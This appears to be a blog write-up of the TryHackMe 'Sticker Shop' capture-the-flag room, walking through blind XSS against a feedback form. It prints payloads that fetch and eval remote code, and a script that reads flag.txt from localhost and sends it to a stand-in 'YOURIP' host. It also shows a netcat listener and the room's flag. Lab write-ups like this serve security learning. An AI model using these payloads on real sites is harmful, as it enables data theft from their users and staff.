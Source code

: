 ```yaml
---
tittle: The Sticker Shop
description: Can you exploit the sticker shop in order to capture the flag?
author: xFraylin
date: 2024-12-12 01:55:00 +0800
categories: [Tryhackme]
tags: [CTF]
image:
    path: https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/port.png?raw=true
---
```


## Firts Let's start the machine
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/start.jpg?raw=true){:width="1200" heigth"630"}
##  The sticker shop is finally online!
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

>
Can you conduct any client-side exploitation in order to read the flag?
`That is a tryhackme hint, once the machine is started let's go to the machine IP`
{: .prompt-tip }

`As you can see says Unauthorized`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/go.jpg?raw=true){:width="1200" heigth"630"}

>
After like `15` minues looking for a directory I found one `submit_feedback` so now let's navigate to `http://machine_ip:8080/submit_feedback`
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/dir.jpg?raw=true)
{: .prompt-info }

>
Remember what tryhackme says `client-side exploitation`
Then i started looking for xss payloads, 2 pages help me on this firts 
{: .prompt-info }
1. <https://www.securitum.com/persistent_threats_via_blind_xss.html> and the another is

2. <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md>


I tried some xss payloads, but im gonna put only two
>
So I set a listener on port before start the xss `8080 `
`nc -nlvp 8080`
{: .prompt-tip }
```
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/try.jpg?raw=true)

> `nc` calls netcat
1. `n` Avoids netcat dns resolution
2. `l` Puts Netcat in listening mode, waiting for incoming  connections.
3. `v` Enables Verbose mode | More details 
4. `p` Specifies the port to listen on
5. `8080` The chosen port number.
{: .prompt-info }

`After like 25 minutes I combined the script found on the web pages that i mencione before then I get this script`


```
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://YOURIP/?flag=' + encodeURIComponent(data));
    });
</script>
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/github/shop/flag.jpg?raw=true){:width="1200" heigth"630"}
`THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D`
>
1. `fetch('http://127.0.0.1:8080/flag.txt')` The `fetch` function is used to do a http request to a local server (Like he's on the local machine) `127.0.0.1` in the port `8080`
`fetch('http://127.0.0.1:8080/flag.txt')`, If the flag.txt exists & the servers reply, then the content give us as a response.
2. `.then(response => response.text())` This convert the response in plaintext.
3. `fetch('http://YOURIP/?flag=' + encodeURIComponent(data));` The data obteined  (the `flag.txt`content)  Are sent to a external server controlled by `YOURIP` 
4. encodeURIComponent(data) ensures that special characters in the content do not break the URL.
{: .prompt-info}
>
After that we got the flag , I hope you enjoy this, `IF YOU SEE ANY DRMATICAL ERRORS, excuse me, I'm LEARNING ENGLISH ;)
{: .prompt-tip}

